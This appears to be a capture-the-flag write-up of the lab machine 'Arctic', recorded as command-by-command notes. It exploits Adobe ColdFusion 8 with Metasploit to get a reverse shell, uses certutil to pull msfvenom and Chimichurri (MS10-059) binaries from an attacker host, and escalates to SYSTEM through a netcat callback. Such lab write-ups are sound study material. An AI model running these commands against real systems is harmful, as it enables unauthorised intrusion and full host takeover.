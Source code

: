 ## Box: Arctic

## Target IP: `10.10.10.11`

---

### Initial Nmap Scan

Ran:

```bash
sudo nmap -sC -sV -vv -T4 -oA nmap/arctic 10.10.10.11
```

Ports open:

| Port | Service |
| --- | --- |
| 135 | msrpc |
| 8500 | http (Adobe ColdFusion 8,0,1,195765) |
| 49154 | msrpc |

---

### Web Enumeration

Hit webserver at `http://10.10.10.11:8500`.

Slow as hell.

Found ColdFusion admin portal at `/CFIDE/administrator/`.

No credentials.

---

### Exploitation

Searched for ColdFusion exploits. Found `ColdFusion 8.0.1 Directory Traversal + RCE`.

Fired up Metasploit:

```bash
msfconsole
```

Search:

```bash
search coldfusion
```

Selected:

```bash
use exploit/windows/http/coldfusion_fckeditor
```

Set options:

```bash
set RHOSTS 10.10.10.11
set RPORT 8500
set payload java/jsp_shell_reverse_tcp
set LHOST tun0
set LPORT 4444
```

First attempt failed.

Set:

```bash
set HttpClientTimeout 150
```

Exploit.

Reverse shell succeeded.

Confirmed:

```bash
whoami
```

Output: `tolis`.

---

### User Flag

Navigated:

```bash
cd C:\Users\tolis\Desktop
type user.txt
```

Grabbed user flag.

---

### Privilege Escalation Preparation

Checked system info:

```bash
systeminfo
```

Output: Windows Server 2008 R2 x64.

Generated custom payload:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4321 -f exe -o shell.exe
```

Served payload:

```bash
python3 -m http.server 80
```

On victim, downloaded:

```bash
certutil.exe -urlcache -split -f http://10.10.14.15/shell.exe shell.exe
```

Confirmed with:

```bash
dir
```

`shell.exe` present.

---

### Attempted Meterpreter Session

Set up handler:

```bash
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 4321
exploit
```

Tried running `shell.exe` on victim.

Connection failed.

---

### Pivot to Kernel Exploit

Found `chimichurri.exe` for privilege escalation (MS10-059).

Cloned:

```bash
git clone https://github.com/egre55/windows-kernel-exploits.git
```

Navigated into:

```bash
cd windows-kernel-exploits/MS10-059\ Chimichurri/Compiled
```

Grabbed `chimichurri.exe`.

Served:

```bash
python3 -m http.server 80
```

On victim, downloaded:

```bash
certutil.exe -urlcache -split -f http://10.10.14.15/chimichurri.exe chimichurri.exe
```

Confirmed with:

```bash
dir
```

---

### Root Shell

Started Netcat listener:

```bash
nc -lvnp 4444
```

On victim ran:

```bash
chimichurri.exe 10.10.14.15 4444
```

Shell connected back.

Confirmed:

```bash
whoami
```

Output: `NT AUTHORITY\SYSTEM`.

---

### Root Flag

Navigated:

```bash
cd C:\Users\Administrator\Desktop
type root.txt
```

Grabbed root flag.
